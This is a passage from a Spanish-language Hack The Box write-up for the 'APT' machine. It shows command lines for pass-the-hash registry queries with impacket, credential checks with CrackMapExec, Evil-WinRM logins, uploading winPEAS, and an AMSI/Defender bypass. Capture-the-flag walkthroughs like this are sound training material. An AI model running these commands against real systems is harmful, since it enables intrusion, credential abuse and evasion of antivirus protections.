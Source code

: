 
Aqui vemos informaciones interesantes, y miramos por lo que nos parece interesante

```bash
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU\\Software
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU\\Software\\GiganticHostingManagementSystem
```

Aqui encontramos usuario y contraseña para henry.vinson_adm. Verificamos las credenciales

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
```

Es valida y intentamos connectarnos con Evil-WinRM
## Vuln exploit & Gaining Access {-}

### WinRM {-}

```bash
gem install evil-winrm
evil-winrm -i apt -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
```

Nos conectamos y podemos leer la flag.


## Privilege Escalation {-}

### Rootear la maquina {-}

Aqui vamos a tirar de **WinPeas**. Descargamos el winPEAS en nuestro equipo de atacante

```bash
wget https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
```

Il lo cargamos desde Evil-WinRM

```powershell
cd C:\Users\henry.vinson_adm\AppData\Local\Temp
upload winPEASx64.exe
dir
.\winPEASx64.exe
```

Aqui vemos que no podemos lanzar el exe porque no lo pilla el antivirus. En este caso el defender no nos deja passar por los bypass normales
pero podemos hacer cositas con funcciones de Evil-WinRM.

```powershell
menu
Bypass-4MSI
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/winPEASx64.exe
```

